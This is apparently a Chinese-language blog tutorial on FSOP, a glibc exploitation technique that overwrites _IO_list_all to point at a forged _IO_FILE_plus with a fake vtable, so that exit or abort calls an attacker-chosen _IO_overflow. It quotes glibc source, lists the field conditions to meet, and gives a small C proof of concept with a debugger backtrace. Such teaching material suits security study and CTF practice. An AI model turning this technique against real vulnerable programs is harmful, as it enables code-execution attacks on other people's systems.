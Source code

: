 ```yaml
---
title: 【IO_FILE】FSOP
index_img: img/article/fsop/abort_routine.001.jpeg
excerpt: FSOP 的核心思想就是劫持_IO_list_all 的值来伪造链表和其中的_IO_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP 选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all 链表中所有项的文件流，相当于对每个 FILE 调用 fflush，也对应着会调用_IO_FILE_plus.vtable 中的_IO_overflow。
---
```


> FSOP 是 File Stream Oriented Programming 的缩写，根据前面对 FILE 的介绍得知进程内所有的_IO_FILE 结构会使用_chain 域相互连接形成一个链表，这个链表的头部由_IO_list_all 维护。另外由于网络上很多IO_FILE相关博客含有相关glibc源代码，但是并没有源代码的完整部分或者链接。在之后的博客中，我会包含该段代码在哪里可以查看得到。

## 介绍

FSOP 的核心思想就是劫持_IO_list_all 的值来伪造链表和其中的_IO_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP 选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all 链表中所有项的文件流，相当于对每个 FILE 调用 fflush，也对应着会调用_IO_FILE_plus.vtable 中的_IO_overflow。

```c
//https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/genops.c#L685
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}
```

![img](img/article/fsop/abort_routine.001.jpeg)

而_IO_flush_all_lockp 不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

- 当 libc 执行 abort 流程时
- 当执行 exit 函数时
- 当执行流从 main 函数返回时

## 梳理

梳理一下 FSOP 利用的条件，首先需要攻击者获知 libc.so 基址，因为`_IO_list_all `是作为全局变量储存在 libc.so 中的，不泄漏 libc 基址就不能改写`_IO_list_all`。

之后需要用任意地址写把`_IO_list_all` 的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的 vtable 指针。但是为了能够让我们构造的 fake_FILE 能够正常工作，还需要布置一些其他数据。 这里的依据是我们前面给出的

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
```

这里其实是两个条件二选一

1. fp->_mode <= 0 && fp-> _IO_write_ptr > fp-> _IO_write_base
2. _IO_vtable_offset (fp) == 0 && fp-> _mode > 0 && (fp->wide_data-> _IO_write_ptr > fp-> _wide_data-> _IO_write_base)

但是vtable显然不会设置为0，那么就要满足条件1，拆分出来两个部分

- fp->_mode <= 0 
- fp->_IO_write_ptr > fp-> _IO_write_base

在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的 vtable 和 _IO_FILE_plus。 为了绕过验证，我们提前获得了 _IO_write_ptr、 _IO_write_base、 _mode 等数据域的偏移，这样可以在伪造的 vtable 中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我们使用分配内存的前 0x100 个字节作为_IO_FILE，后 0x100 个字节作为 vtable，在 vtable 中使用 0x41414141 这个地址作为伪造的 _IO_overflow 指针。

之后，覆盖位于 libc 中的全局变量 _IO_list_all，把它指向我们伪造的 _IO_FILE_plus。

通过调用 exit 函数，程序会执行 _IO_flush_all_lockp，经过 fflush 获取 _IO_list_all 的值并取出作为 _IO_FILE_plus 调用其中的 _IO_overflow

```c
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()
```